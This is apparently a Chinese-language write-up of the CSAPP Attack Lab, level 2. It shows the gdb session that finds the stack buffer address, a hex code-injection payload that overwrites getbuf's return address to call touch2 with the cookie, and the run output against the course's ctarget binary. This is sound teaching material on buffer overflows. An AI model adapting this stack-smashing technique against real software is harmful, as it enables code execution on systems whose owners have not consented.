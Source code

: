 在`4017ac`设置断点

```shell
(gdb) b *0x4017ac
Breakpoint 2 at 0x4017ac: file buf.c, line 14.

0x00000000004017af	14	in buf.c
(gdb) p $rsp
$5 = (void *) 0x5561dc78
```

得到缓冲区地址为`0x5561dc78`

设计注入代码

ans2.txt

```shell
48 c7 c7 fa 97 b9 59 68 # 执行代码
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 # 缓冲区的地址
```

接下来执行

```shell
dargon@dd:~/桌面/CSAPP/lab3_attack/target1$ ./hex2raw < ans2.txt  > ans2_raw.txtdargon@dd:~/桌面/CSAPP/lab3_attack/target1$ ls
ans1_raw.txt  ans2_raw.txt  cookie.txt  farm.c   l2.o  README.txt
ans1.txt      ans2.txt      ctarget     hex2raw  l2.s  rtarget
dargon@dd:~/桌面/CSAPP/lab3_attack/target1$ cat ans2_raw.txt 
H�����Yh�@�x�aU
dargon@dd:~/桌面/CSAPP/lab3_attack/target1$ ./ctarget < ans2_raw.txt 
FAILED: Initialization error: Running on an illegal host [dd]
dargon@dd:~/桌面/CSAPP/lab3_attack/target1$ ./ctarget -q < ans2_raw.txt 
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```

运行成功！

分析此时的栈帧

| 地址                                             | 内容                    |
| ------------------------------------------------ | ----------------------- |
| 0x5561dca0  （getbuf的返回地址）以上是test的栈帧 | 00 00 00 00 55 61 dc 78 |
| rsp+20 （以下分别对应 getbuf的缓冲区）           | 00 00 00 00 00 00 00 00 |
| rsp+18                                           | 00 00 00 00 00 00 00 00 |
| rsp+10                                           | 00 00 00 00 00 00 00 00 |
| rsp+08                                           | 00 00 00 00 00 00 00 00 |
| rsp                                              | 00 00 00 00 00 00 00 00 |
